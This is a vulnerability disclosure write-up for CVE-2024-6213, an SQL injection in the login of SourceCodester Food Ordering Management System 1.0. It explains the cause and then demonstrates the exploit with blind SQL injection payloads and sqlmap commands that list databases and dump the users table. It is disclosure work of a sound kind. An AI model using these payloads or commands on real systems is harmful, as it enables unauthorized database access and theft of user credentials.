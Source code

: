 ```yaml
---
title: CVE-2024-6213
draft: false
tags:
  - cve
---
```


# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (login)
## CVE-2024-6213

> A vulnerability was found in SourceCodester Food Ordering Management System up to 1.0. It has been classified as critical. This affects an unknown part of the file login.php of the component Login Panel. The manipulation of the argument username leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-269277 was assigned to this vulnerability.

**Affected Project**: Sourcecodester Food Ordering Management System 1.0


**Official Website**: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

**Version**: 1.0

**Related Code file**: router.php

**Injection parameter**: username


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The username and password fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the login.php:

`http://172.16.76.1/foms/login.php`

![image](https://github.com/jadu101/CVE/assets/76433661/5f48cb34-18a4-4b03-8848-964b87b60b94)

We will first intercept the login traffic using Burp Suite. Web app is using router.php for login:

![image-1](https://github.com/jadu101/CVE/assets/76433661/cf2eb00b-1072-4879-871d-fea55e0e27ee)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter username is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_login_php.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/cefe36df-faac-4a01-add2-d8ea640290bd)

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7413=7413 AND 'DhRh'='DhRh&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3140 FROM (SELECT(SLEEP(5)))KQvB) AND 'JGgH'='JGgH&password=admin123
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p username --dbs`

![image-3](https://github.com/jadu101/CVE/assets/76433661/fe318b8c-e4cd-4110-bcf6-f2fe4b11ece3)


Below command will dump data inside foms_db database table users:

`sqlmap -r foms_login_php.txt --batch -p username --dbs -D foms_db -T users --dump`

![image-4](https://github.com/jadu101/CVE/assets/76433661/a9cb9cc8-14a4-4517-bb1b-7e0f27c15665)
